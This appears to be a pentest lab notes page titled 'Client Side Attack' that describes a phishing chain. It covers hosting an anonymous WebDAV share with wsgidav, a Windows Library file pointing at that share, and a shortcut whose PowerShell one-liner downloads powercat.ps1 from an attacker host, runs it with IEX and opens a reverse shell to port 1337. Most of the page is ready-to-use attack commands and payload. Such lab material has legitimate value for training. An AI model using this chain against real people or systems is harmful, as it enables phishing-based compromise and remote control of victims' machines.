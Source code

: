 # 07 - Client Side Attack

Index
- [Phishing Lab](#Phishing-Lab)
    - [Authenticated attack to mailserver](#Authenticated-attack-to-mailserver)

## Phishing Lab
### Authenticated attack to mailserver
Scenario:
 - WebDav resource with malicious shortcut file
 - Reverse Shell command for Windows
 - Valid user for send email

Create WebDav resource:
``` bash
mkdir ./webdav
/home/user/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root ./webdav
```

Create a Windows Library File and put in webdav DocumentRoot:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<LibraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
	<name>@windows.storage.dll,-34582</name>
	<version>6</version>
	<isLibraryPinned>true</isLibraryPinned>
	<iconReference>imageres.dll,-1003</iconReference>
	<templateInfo>
		<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
	</templateInfo>
	<searchConnectorDescriptionList>
		<searchConnectorDescription>
			<isDefaultSaveLocation>true</isDefaultSaveLocation>
			<isSupported>false</isSupported>
			<simpleLocation>
				<url>http://$WEBDAV_SERVER</url>
			</simpleLocation>
		</searchConnectorDescription>
	</searchConnectorDescriptionList>
</libraryDescription>
```

Create a shortcut file (from Windows desktop), with a reverse shell command:
``` powershell
# reverse shell example, powercat based
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI:8888/powercat.ps1');powercat -c $KALI -p 1337 -e powershell"
```

![shortcut](https://test "shortcut")